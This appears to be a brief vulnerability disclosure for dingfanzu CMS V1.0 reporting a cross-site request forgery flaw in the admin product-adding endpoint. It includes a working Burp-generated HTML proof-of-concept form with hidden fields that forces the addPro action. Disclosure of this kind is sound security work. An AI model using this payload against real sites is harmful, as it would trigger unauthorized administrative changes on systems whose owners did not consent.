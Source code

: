 
target:https://github.com/geeeeeeeek/dingfanzu
version: V1.0

dingfanzu CMS V1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/doAdminAction.php?act=addPro

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/doAdminAction.php?act=addPro" method="POST">
      <input type="hidden" name="act" value="addPro" />
<input type="hidden" name="pName" value="cs" />
<input type="hidden" name="shopId" value="1002" />
<input type="hidden" name="pCateId" value="32" />
<input type="hidden" name="priceB" value="1" />
<input type="hidden" name="filename" value="1.png" />
<input type="hidden" name="myFile" value="-" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

